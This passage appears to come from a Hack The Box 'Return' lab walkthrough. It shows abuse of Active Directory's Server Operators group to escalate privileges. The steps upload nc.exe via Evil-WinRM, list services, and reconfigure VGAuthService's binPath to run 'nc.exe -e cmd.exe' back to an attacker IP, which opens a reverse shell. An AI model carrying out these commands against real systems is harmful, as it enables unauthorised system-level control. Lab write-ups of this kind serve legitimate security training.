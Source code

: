 **Server Operators** is a built-in group in Active Directory that grants members specific administrative capabilities over domain controllers. Members can manage services, including starting and stopping most services, perform backup and restore operations, shut down and restart the server, and handle disk management tasks.

Upload nc.exe:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/garffff/htb/return/nc.exe
                                        
Info: Uploading /home/garffff/htb/return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
```

List all services:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\desktop> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

Configure the service with the payload. Stop and start the service:

```bash
sc.exe config VGAuthService binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.4 443"
sc.exe stop VGAuthService
sc.exe start VGAuthService
```